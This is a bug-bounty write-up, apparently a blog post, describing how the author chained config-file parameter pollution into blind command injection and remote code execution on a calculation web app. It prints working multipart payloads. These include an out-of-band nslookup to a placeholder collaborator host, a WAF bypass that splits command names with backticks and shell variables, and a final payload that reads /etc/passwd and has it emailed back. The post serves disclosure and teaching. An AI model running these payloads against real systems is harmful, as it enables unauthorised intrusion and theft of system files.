 ```yaml
---

layout: post  
title: "Backend Parameter Injection -> RCE"

---
```


### Background

While hunting on a private program, I happened across a calculation web app. It was a pretty standard web form that accepted around 10 different numerical values, performed some calculations, then emailed the results back to the user. This behavior piqued my interest as I suspected that the application was passing the input to another server-side program.

![Web-Form](/assets/param-rce-webform.jpg)

I submitted the form a few times and after fumbling with the parameters, I got an email back with what looked like terminal output (the misaligned pipes are a dead giveaway).

![Email-Output](/assets/param-rce-email-output.jpg)

Any time I find an interesting application, I first check if it is open-source so that I can see how it works. I googled the variable names within the response and found a repository (let's call it CalcTool) on GitHub. After looking over the readme, I learned CalcTool reads a configuration file and generates output very similar to the email I received.

This raised several questions. Is this application passing data directly to CalcTool's configuration file? If so, can I exploit its behavior somehow?

### CalcTool Code Review

I looked over the sample configuration file on GitHub and found that the form values lined up exactly with the variables on the web form. This confirmed my suspicion that the web app was passing input to CalcTool. 

My next goal was to determine if there was any dangerous functionality within CalcTool that I could hit from the web application. I decided to try and locate dangerous function calls such as exec, execv, and system. These calls are usually vulnerable to command injection if the attacker can pass arbitrary input to these functions.

After some time, I found exactly one system() call. It was in an email function that dynamically constructed the arguments from the CalcTool configuration file:

```plaintext
margs = "-s CalcTool Output: '" + jobtitle + "' " + email + " < LOGFILE"
System ("mail" + text)
```

The end result of these string operations is the following command:

```plaintext
mail -s 'CalcTool Output: job173' email@example.com < /path/to/LOGFILE
```

Unfortunately, I only had access to the email variable. On top of that, the web application used a regular expression to filter out any useful special characters like: \` $ ( ). 

At this stage we know the following so far:

*   The web application passes web form values in a one-to-one fashion to CalcTool's config file.
*   There is only one form value that **we control** that is passed to a system() call within CalcTool, which is our best chance at exploitation.
*   The goal is to find a way to pass something we control directly to that system call

### Polluting the Configuration

Bypassing filters can be tricky. In web applications, one common filter bypass technique is parameter pollution.

PortSwigger defines parameter pollution as:

```plaintext
HTTP Parameter Pollution tests the applications response to receiving multiple HTTP parameters with the same name; for example, if the parameter username is included in the GET or POST parameters twice.

Supplying multiple HTTP parameters with the same name may cause an application to interpret values in unanticipated ways. By exploiting these effects, an attacker may be able to bypass input validation, trigger application errors or modify internal variables values. 
```

Now, we know the web application accepts the variables as multi-part form data, which is not typically vulnerable to HTTP parameter pollution. However, I noticed that CalcTool's configuration file had a few other numeric variables that lined up with similar ones from the web form. 

If the web application was writing these values to a CalcTool configuration file, then what would happen if a variable were defined more than once?

Here is an example of what a configuration file looks like:

```plaintext
Title "job title"
Email "email@example.com"
LOGFILE "log.txt"
Parameter_a 10
Parameter_b 1.4
```

It is a simple text file with a parameter followed by a "value" on each line.

I decided to apply the concept of HTTP parameter pollution to the configuration file. Thus I tried polluted the job title variable using one of the numeric form values. If I could set the title to the word "polluted", then the subject of my email should read "CalcTool Output: Polluted" instead of the normal "JobOutput\_1948333".

After pollution, the form value looked something like this:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "polluted"
-------------------------384837281
```

10 is the original value of the frequency form value, and I added a new line with the polluted title variable.

My goal was for the configuration file to look like this:

```plaintext
Title "jobid12"
...
Range 300
Frequency 10
Title "polluted"
```

For this to work, the application would need to keep **only** the **last** declaration of the title variable instead of keeping the first declaration. I then used BurpSuite's intercept feature to catch the form and add the polluted variable on a new line. I received the following email:

![Polluted Job](/assets/param-rce-job-polluted.jpg)

This output means that the pollution worked!

The next step was to prove a command injection vulnerability. Due to the mail command not retuning its output directly to me, this is essentially a blind command injection. Therefore, I needed an out-of-band method of exfiltrating data. I tried the following payload using Burp Collaborator:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "$(nslookup mycollaborator.com)"
-------------------------384837281
```

After sending the request and editing it with Burp, this time I was met with a 403 forbidden status from the web server. After trying a couple of other common payloads, I discovered that the application was behind a Web Application Firewall (WAF). 

It was configured to block most Linux commands and would not allow $() or {} at all.

However, backticks were allowed. So I tried the following variant:

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=nslo;b=okup;$a$b mycollaborator.com`
...
```

This payload does the following:

*   Declares a variable and sets it to be the value “nslo”
*   Declares a variable b and sets it to be the value “okup”
*   Runs the command $a$b which combines a and b to form the nslookup command. Then I simply passed it mycollaborator.com (a placeholder for the actual collaborator URL) in order to get my lookup.

After checking my collaborator client, I saw some activity! This means my blind command injection worked. However, I needed to exfiltrate data in order to prove remote code execution.

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=ca;b=t;$a$b /e*c/pa*s*d > /tmp/synack77`
LOGFILE /tmp/synack77 
...
```

### Here is a breakdown of the final exploit chain:

*   CalcTool's configuration file allows for the definition of a log file.
*   The email function I showed earlier reads this log into the body of the email in order to send the results back to the user.
*   I needed to pollute the title parameter with a payload to write command results to a file.
*   Then I required a way to send the results back to me, so I polluted the logfile parameter to the command result file.
*   The results of the calculations would be overwritten by my command, and then the mail command would email me the results of my command

![Final Payload](/assets/param-rce-final-payload.png)

The results of the email:

![Payload Contents](/assets/param-rce-email-output-passwd.jpg)

Thanks for reading!
